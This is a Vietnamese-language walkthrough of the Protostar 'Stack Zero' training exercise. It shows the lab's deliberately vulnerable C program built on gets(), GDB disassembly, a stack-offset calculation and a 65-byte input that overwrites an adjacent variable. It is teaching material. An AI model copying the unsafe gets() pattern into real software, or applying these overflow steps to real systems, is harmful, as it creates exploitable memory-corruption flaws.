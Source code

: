 ## Stack0
- Challenge: https://exploit.education/protostar/stack-zero/
- Tải virtual machine machine: https://github.com/ExploitEducation/Phoenix/releases/download/v1.0.0-alpha-3/exploit-education-phoenix_1.0.0_amd64.deb
- Đầu tiên import file iso của protostar vào virtual machine, đăng nhập bằng credentials: `user:user`
- Chạy lệnh `/sbin/ifconfig` để lấy địa chỉ IP và SSH vào
- Nếu gặp lỗi `Unable to negotiate with 192.168.1.15 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss` thì thêm option `-oHostKeyAlgorithms=+ssh-dss`
```
ssh -oHostKeyAlgorithms=+ssh-dss user@192.168.1.15
```
- source code C:
```c=
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- Goal là ta phải ghi đè được biến `modified`
- Dùng GDB `disass main`, chạy `set disassembly-flavour intel` để xem syntax intel asm, nó sẽ đỡ hơn syntax AT&T:
```asm 
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
```
- Đặt break point ở main `(gdb) b main`, rồi run `r`, execution flow sẽ dừng ở địa chỉ `0x080483fd <main+9>`. Gdb sẽ bỏ qua phần stack alignment từ offset `+0` đến `+6`, nếu muốn dừng ngay tại `+0` ta có thể dùng `b *main` (gdb sẽ hiểu là **break tại địa chỉ của main**, thay vì **break tại hàm main**)
- Để ý dòng `0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0`
- Tại đây đang chuyển giá trị 0 vào ô stack `esp+0x5c`, đối chiếu với code C ta có thể thấy đó là dòng `modified = 0;` => `esp+0x5c` là địa chỉ của biến  `modified`
- Trong code C thì nơi ta có thể ghi input vào là tại dòng 11:
```c
gets(buffer);
```
- `gets` là một hàm nguy hiểm, nó sẽ không biến được biến đích rộng bao nhiêu, nó sẽ lấy toàn bộ input đưa vào biến đích, dẫn đến ghi đè vùng nhớ kề bên => buffer overflow
- Ta chỉ có thể ghi đè được các biến nằm phía trên của biến `buffer`, nên ta sẽ phải kiểm tra xem `modified` có nằm ở trên `buffer` không, nhìn vào asm:
```asm 
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
```
- Thấy trước khi gọi đến `gets` thì địa chỉ của `esp+0x1c` được đưa vào thanh ghi `eax`, đoán rằng đây là biến `buffer`, chạy `p ($esp+0x1c) - ($esp+0x5c)` ra kết quả `-64`, thêm với dữ kiện là stack đi từ địa chỉ cao về địa chỉ thấp => `modified` nằm ở địa chỉ cao hơn `buffer`
- Ta cũng biết thêm một điều là biến `modified` và `buffer` cách nhau 64 bytes, nghĩa là nếu ta truyền 64 bytes vào buffer thì byte thứ 65 sẽ được ghi vào `modified` => solved
- Dùng python tạo ra 64 chữ "A", input vào chương trình:
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
Try again?
$ 
```
- Lần này tạo 65 chữ "A":
```
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./stack0
you have changed the 'modified' variable
$ 
```
